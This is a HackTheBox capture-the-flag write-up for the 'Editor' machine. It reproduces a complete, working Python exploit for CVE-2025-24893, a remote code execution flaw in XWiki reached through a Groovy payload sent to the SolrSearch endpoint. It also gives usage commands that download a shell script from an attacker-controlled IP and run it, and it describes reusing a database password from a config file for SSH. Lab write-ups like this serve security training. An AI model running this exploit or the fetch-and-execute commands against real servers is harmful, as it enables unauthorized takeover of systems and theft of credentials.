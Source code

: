 ```yaml
---
layout: post
title: "Editor HTB Writeup"
date: 2025-07-20 13:54:00 +0300
categories: [HackTheBox, Machines]
tags: [cybersecurity, wikicms, hackthebox, machines,hacking]
---
```



# 🎰 Editor HTB Writeup

Today i'll talk about Editor HTB machine. This machine is about WikiCMS and RCE (CVE-2025-24893)
> `CVE-2025-24893` is a RCE vulnerability in WikiCMS.
{: .prompt-warning }
---

## NMAP & Enumeration
After a quick scan in nmap and ffuf, I saw this output in nmap.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:55 +03
Nmap scan report for editor.htb (10.10.11.80)
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 80 is about a download page for editor application.
Port 8080 is WikiCMS and after a quick search in exploit-db, I realized WikiCMS has RCE vulnerability.

### (PoC)[https://github.com/Artemir7/CVE-2025-24893-EXP]
```python
import argparse
import requests
import re
from urllib.parse import urljoin, quote
import html

BANNER = """
===========================================================
                   CVE-2025-24893
            XWiki Remote Code Execution Exploit
                      Author: Artemir
===========================================================
"""

def extract_output(xml_text):
    decoded = html.unescape(xml_text)
    match = re.search(r"\[}}}(.*?)\]", decoded)
    if match:
        return match.group(1).strip()
    else:
        return None

def exploit(url, cmd):
    headers = {
        "User-Agent": "Mozilla/5.0",
    }

    payload = (
        "}}}{{async async=false}}{{groovy}}"
        f"println('{cmd}'.execute().text)"
        "{{/groovy}}{{/async}}"
    )

    encoded_payload = quote(payload)
    exploit_path = f"/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded_payload}"
    full_url = urljoin(url, exploit_path)

    try:
        response = requests.get(full_url, headers=headers, timeout=10)
        if response.status_code == 200:
            output = extract_output(response.text)
            if output:
                print("[+] Command Output:")
                print(output)
            else:
                print("[!] Exploit sent, but output could not be extracted.")
                print("[*] Raw response (truncated):")
                print(response.text[:500])
        else:
            print(f"[-] Failed with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-24893 - XWiki RCE PoC")
    parser.add_argument("-u", "--url", required=True, help="Target base URL (e.g. http://example.com)")
    parser.add_argument("-c", "--cmd", required=True, help="Command to execute")

    args = parser.parse_args()
    exploit(args.url, args.cmd)
```
## Usage of The Exploit 
```
python sa.py -u http://editor.htb:8080 -c "curl http://10.10.14.35:8080/ -O /tmp/exp.sh"
python sa.py -u http://editor.htb:8080 -c "bash /tmp/exp.sh"
```
### Getting Database Password
In `hibernate.cfg.xml` I see the password of database. The password is same with SSH.

# End
This machine is a great example of the importance of the updating.
Happy Hacking <3